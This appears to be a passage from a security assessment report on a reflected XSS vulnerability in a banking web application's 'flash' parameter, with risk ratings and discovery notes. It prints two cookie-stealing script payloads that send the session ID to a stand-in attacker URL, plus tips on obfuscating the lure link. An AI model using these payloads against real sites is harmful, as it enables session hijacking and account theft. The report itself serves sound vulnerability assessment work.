 In the next example, we steal the users session, by baiting him to click on a link that seemingly leads to his banking site:
\begin{lstlisting}[caption= Stealing SessionID,label=listing:first_test]
register.php?flash=<script>var userCookie = document.cookie; var attackSite = "http://en.wikipedia.org/wiki/Phishing?stolenCookie="; window.location.replace(attackSite.concat(userCookie));</script>
\end{lstlisting}
The user may be tempted to click on this link, since it is pointing to a site he trusts. However, the malicious code gets executed by the browser and automatically sends the cookie containing the session ID to the attacker. The links can be obfuscated to make their malicious contents less obvious to more knowledgable users. We can also place the link on the banking site itself, to make it look even more legitimate:
\begin{lstlisting}[caption= Stealing SessionID via Link on Banking Site,label=listing:first_test]
register.php?flash=<script>var userCookie=document.cookie; document.write("<a href= http://en.wikipedia.org/wiki/Phishing?stolenCookie=\"". concat(userCookie). concat("\"> Thank you for registering, click here to login. </a>")); </script>
\end{lstlisting}


Likelihood: high \newline

Impact: medium-high\newline

Risk: high\newline

\subsection{Discovery}

This vulnearbility was very easy to discover. The \emph{flash} parameter is used throughout all parts of the application to display messages. It is very intuitive to try and alter its outputs. Since no input validation is done, it becomes a very obvious injection point for reflected XSS attacks. After discovering this vulnerability we also checked with ZAP, whether any additional warnings or results would show up. ZAP noted, that the HTTPOnly flag was not set for the cookies containing the session ID. Therefore the user cookies were accessible through javascript and could be transmitted to an attacker site quite easily.

\subsection{Likelihood}
Even with only very basic skills in javascript and some knowledge about XSS attacks it is possible to steal the users session cookie and therefore impersonate any users that can be baited into clicking on a link to their banking site.

